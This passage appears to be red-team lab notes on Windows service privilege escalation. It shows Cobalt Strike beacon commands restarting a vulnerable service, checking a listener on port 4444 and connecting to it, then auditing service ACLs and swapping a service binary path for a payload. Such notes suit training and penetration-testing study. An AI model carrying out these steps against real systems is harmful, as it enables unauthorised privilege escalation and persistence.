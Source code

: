 ```
beacon> run sc stop VulnService1

SERVICE_NAME: VulnService1 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

beacon> run sc start VulnService1

SERVICE_NAME: VulnService1 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 4384
        FLAGS              :
```

```
beacon> run netstat -anp tcp
[...snip...]
TCP    127.0.0.1:4444         0.0.0.0:0              LISTENING
```

Connect to beacon:
```
beacon> connect localhost 4444
```

To restore the service, simply delete `Service.exe` and restart the service.

## Weak Service Permissions

---

Use [[SharpUp#audit ModifiableServices]].

[This](https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/) PowerShell script will print which service rights we have.

```
powershell-import C:\Tools\Get-ServiceAcl.ps1
powershell Get-ServiceACL -name VulnService2 | Select -expand access
```

We can abuse these weak permissions by changing the binary path of the service - so instead of it running `C:\Program Files\Vulnerable Services\Service 2.exe`, we can have it run something like `C:\Temp\payload.exe`.
